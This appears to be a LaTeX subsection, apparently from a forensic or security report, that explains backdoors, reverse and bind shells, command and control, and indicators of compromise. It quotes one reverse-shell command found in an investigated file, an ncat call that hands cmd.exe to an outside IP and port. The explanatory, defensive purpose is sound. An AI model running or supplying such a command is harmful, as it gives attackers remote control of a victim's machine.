 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Backdoors and Remote Access}
	A backdoor is a covert method of bypassing normal authentication or encryption in a computer system, an application, or an embedded device[cite: 118, 120, 251].
	\begin{itemize}
		\item \textbf{Definition:} It allows unauthorized remote access to a system, enabling attackers to control the compromised machine, exfiltrate data, or use it as a pivot point for further attacks.
		\item \textbf{Methods:} Backdoors can be established through various means, including exploiting vulnerabilities, installing malicious software, or using legitimate remote administration tools for malicious purposes. Common methods include:
		\begin{itemize}
			\item \textbf{Reverse Shells:} The compromised machine initiates an outbound connection to an attacker-controlled server. This is often used to bypass firewalls that restrict inbound connections. The command `ncat 172.20.10.15 12345 -e cmd.exe` in `cmd_commands.txt` [cite: 253] attempts to establish a reverse shell.
			\item \textbf{Bind Shells:} The compromised machine opens a listening port, waiting for the attacker to connect.
		\end{itemize}
		\item \textbf{Command and Control (C2):} Attackers use C2 infrastructure to send commands to the backdoor and receive data.
		\item \textbf{IOCs:} Unexpected network connections (especially to unusual IP addresses or ports), new listening ports, unexplained system behavior, or new user accounts.
	\end{itemize}
	
\end{document}
